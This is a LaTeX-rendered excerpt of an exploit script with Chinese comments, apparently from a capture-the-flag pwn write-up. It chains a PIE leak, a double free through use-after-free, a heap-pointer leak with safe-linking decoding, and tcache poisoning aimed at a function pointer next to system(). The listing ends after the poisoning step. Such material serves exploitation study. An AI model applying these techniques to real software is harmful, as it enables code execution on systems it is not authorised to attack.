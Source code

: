 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
主流程（\texttt{main()}）：

\begin{Shaded}
\begin{Highlighting}[]
    \CommentTok{\# 1) PIE leak：指令 0x16 dump 出 0x40c0 起 240 bytes（加密傳送，我們自己解）}
\NormalTok{    dump }\OperatorTok{=}\NormalTok{ cb.dump()}
\NormalTok{    base }\OperatorTok{=}\NormalTok{ u64(dump[}\DecValTok{2}\NormalTok{:}\DecValTok{10}\NormalTok{]) }\OperatorTok{{-}}\NormalTok{ OFF\_STUB        }\CommentTok{\# dump[0]=0x16, dump[1]=0x00, 再來才是資料}
\NormalTok{    system\_plt }\OperatorTok{=}\NormalTok{ base }\OperatorTok{+}\NormalTok{ OFF\_SYSTEM}
\NormalTok{    func\_ptr   }\OperatorTok{=}\NormalTok{ base }\OperatorTok{+}\NormalTok{ OFF\_FUNC\_PTR}

    \CommentTok{\# 2) 製造 double free}
\NormalTok{    cb.alloc(IDX\_VICTIM, CHUNK, }\StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*}\NormalTok{ CHUNK)  }\CommentTok{\# slot0.ptr = P}
\NormalTok{    cb.clone(IDX\_ALIAS, IDX\_VICTIM)            }\CommentTok{\# slot1 = slot0（共用 P）}
\NormalTok{    cb.free(IDX\_VICTIM)                        }\CommentTok{\# free(P)，但 slot0.ptr 仍留著（refcount 1）}
\NormalTok{    cb.write(IDX\_VICTIM, }\DecValTok{16}\NormalTok{, }\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x00}\StringTok{\textquotesingle{}} \OperatorTok{*} \DecValTok{16}\NormalTok{)     }\CommentTok{\# UAF write：把 tcache 的 next / key 清 0}
\NormalTok{    cb.free(IDX\_ALIAS)                         }\CommentTok{\# 再 free(P) 一次 → double free 成功}

    \CommentTok{\# 3) heap leak：UAF read 讀 P 的前 16 bytes}
\NormalTok{    leak }\OperatorTok{=}\NormalTok{ cb.read(IDX\_VICTIM)}
\NormalTok{    stored\_next }\OperatorTok{=}\NormalTok{ u64(leak[}\DecValTok{0}\NormalTok{:}\DecValTok{8}\NormalTok{])               }\CommentTok{\# = P \^{} (P \textgreater{}\textgreater{} 12)（自我參照環）}
\NormalTok{    P }\OperatorTok{=}\NormalTok{ reveal(stored\_next)                    }\CommentTok{\# 迭代解出 P}
    \CommentTok{\# ✶ P = malloc 回傳的 user 位址（chunk 標頭是 P {-} 0x10，別拿去 XOR）}

    \CommentTok{\# 4) tcache poisoning：把 P 的 next 設成 0x40c0（編碼時要 XOR (P\textgreater{}\textgreater{}12)）}
\NormalTok{    cb.write(IDX\_VICTIM, }\DecValTok{16}\NormalTok{, p64(func\_ptr }\OperatorTok{\^{}}\NormalTok{ (P }\OperatorTok{\textgreater{}\textgreater{}} \DecValTok{12}\NormalTok{)) }\OperatorTok{+}\NormalTok{ p64(}\DecValTok{0}\NormalTok{))}


\end{Highlighting}
\end{Shaded}
\end{document}
